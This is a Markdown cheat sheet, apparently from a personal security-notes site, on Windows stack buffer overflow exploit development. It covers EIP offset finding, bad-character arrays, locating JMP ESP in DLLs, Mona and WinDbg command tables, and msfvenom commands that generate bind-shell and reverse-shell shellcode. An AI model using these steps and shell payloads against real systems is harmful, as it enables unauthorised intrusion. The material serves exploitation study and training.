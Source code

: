 ```yaml
---
title: Windows Exploit Dev
category: Exploit Development
order: 1
---
```


> **Basic Stack based Buffer Overflow**

**1. Registers and Memory Addesses**

Copy the addresses in all the registers prior to and after the crash.  Determine if EIP is affected.

**2. Find the offset for EIP control**

Metasploit:
{% highlight bash %}
msf-pattern_create -l 3000
msf-pattern_offset -q 39694438 -l 3000
{% endhighlight %}

Immunity with Mona:
{% highlight bash %}
!mona config -set workingfolder C:\logs\%p
!mona pc 3000
!mona pattern_offset 0x7A46317A 
!mona suggest #automatically creates an exploit skeleton
{% endhighlight %}

**3. Find memory that you can control**

Check where the registers point to at the crash (e.g., jump to ESP) or if memory is static (jump to address)

**4.  Find the offset of where you can control vs where you can jmp to:**

{% highlight bash %}
buf = "1ABCDEFGHIJK2ABCDEFGHIJK3ABCDEFGHIJK4ABCDEFGHIJK" 
buf += "5ABCDEFGHIJK6ABCDEFGHIJK" 
buf += "7ABCDEFGHIJK8ABCDEFGHIJK"
buf += "9ABCDEFGHIJKAABCDEFGHIJK"
buf += "BABCDEFGHIJKCABCDEFGHIJK"
{% endhighlight %}

**5. Find bad characters**

Either the character won't show up or the crash is affected.

{% highlight bash %}
badchars = ( 
"\x00\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10" 
"\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20" 
"\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30" 
"\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40" 
"\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50" 
"\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60" 
"\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70"
"\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80" "\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90" "\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0" "\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0" "\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0" "\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0" "\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0" "\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0" 
"\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff" )
{% endhighlight %}

{% highlight bash %}
badchars = ("\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10" +"\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20" +"\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30" +"\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40" +"\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50" +"\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60" +"\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70" +"\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80" +"\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90" +"\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0" +"\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0" +"\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0" +"\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0" +"\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0" +"\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0" +"\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff" )
{% endhighlight %}

{% highlight bash %}
badchars = "\x00\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10"
badchars += "\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20"
badchars += "\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30"
badchars += "\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40"
badchars += "\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50"
badchars += "\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60"
badchars += "\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70"
badchars += "\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80"
badchars += "\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90"
badchars += "\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0"
badchars += "\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0"
badchars += "\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0"
badchars += "\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0"
badchars += "\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0"
badchars += "\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0"
badchars += "\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff"
{% endhighlight %}

**6. Find the opcode for the needed jmp instruction:**

nasm_shell.rb:

{% highlight bash %}
/usr/share/metasploit-framework/tools/exploit/nasm_shell.rb 
jmp esp
add edx, 12
{% endhighlight %}

windbg:

{% highlight bash %}
a #assemble
jmp esp #press enter twice
u #unassemble
{% endhighlight %}


**7. Find the opcode in the loaded dlls:**

windbg:

* Launch the program
* Launch windbg
* Attach to the process
* Look for non-windows DLLs at the top of the screen

{% highlight bash %}
ModLoad: 10000000 10071000   C:\Program Files\Easy RM to MP3 Converter\MSRMfilter03.dll

> s 10000000 l 10071000  ff e4
#Find an address that doesn't contain bad characters
{% endhighlight %}

Immunity and Mona:

{% highlight bash %}
!mona modules
#Look for modules with no memory protection (e.g., DEP and ASLR)
!mona find -s '\xff\xe4' -m SLMFC.DLL
#Find an address that doesn't contain bad characters
{% endhighlight %}

**8. Create the shellcode:**

{% highlight bash %}
msfvenom -a x86 --platform windows -p windows/shell_bind_tcp EXITFUNC=thread -f python -b "\x00\x0a\x0d" -e x86/alpha_upper -v shellcode
{% endhighlight %}

> **Mona** 

Run a Program | <code> nbd --run /path/to/program </code>
Set Working Folder | <code> !mona config -set workingfolder c:\logs\%p </code>
Set Modules to Exclude | <code> !mona config -set excluded_modules "module1.dll,module2.dll" </code>
Generate cyclic pattern | <code> !mona pc [size] </code>
Find offset | <code> po [address] </code>
find register overwritten with pattern |  <code> findmsp </code> 
Generate bytes from 0x00 to 0xff excluding badchars | <code>  bytearray -b [badchars] </code> 
find a jump point | <code> jmp -r [register] </code> 
skip modules that start with 0x00 | <code> -n </code> 
skip os modules | <code> -o </code>  
Module | <code> -m </code>
Module property | <code> -cm </code>
filter bad chars | <code> -cpd  </code>

**Additional Resources**

* [Mona Manual](https://www.corelan.be/index.php/2011/07/14/mona-py-the-manual/)

> **Debuggers: Immunity** 

Go to a memory address|  Right Click → Go to → Expression (Ctrl+G)
Breakpoint | F2
Step | F7
Exec till Return | Ctrl+F9
Run | F9
Pause | F12

**Additional Resources**

* [Immunity](https://www.sans.org/reading-room/whitepapers/malicious/basic-reverse-engineering-immunity-debugger-36982)

> **Debuggers: WINDBG** 

Start windbg with save layout | <code> windbg -QY C:\path\executable argument </code>
Set breakpoint at Main | <code> Bp vuln_app!main </code>
Set a breakpoint at addres | <code> Bp [address] </code>
list breakpoints | bl 
View stack | u
Dump/Dispaly EDP | dd ebp
Display 2 32bit values pointed to by EBP | <code>  Dp ebp L2 </code>
Display value pointed to by EBP | Dd poi(ebp)
Display segment information by the fs register | Dg fs
Display structure of the peb in nt moduel | </code> Dt nt!_peb </code>
view exception chain | <code> !exchain </code>
pass exception/continue/run | g  
Step | t
step | gN
Step Over | p
Find Location of Function | X executableName!FunctionName
Disassemble at Address | u [address]  
Disassemble code at return address | u poi(ebp+4)
Evaluate Expression | <code> ?esp+100 #value of ESP plus 0x100 </code>
load python |  <code> .load pykd.pyd </code> 
exceute mona stuff | <code> !py mona [command] [args] </code>
Find instruction from opcode | <code> a [enter] jmp esp [enter] [enter] </code>
Find instruction from opcode | <code> u [address from above] </code>
Open Executable | CTRL+E
Attach to process | F6
Memory | Alt+5
Close Window | Ctrl+F4
Restart | Ctrl+Shift+F5
Break | Ctrl+Break

> **Shellcode** 

{% highlight bash %}
msfvenom -p windows/shell/reverse_tcp LHOST=192.168.37.1 LPORT=4321  -b '\x00\x09\x0a' -f python
{% endhighlight %}




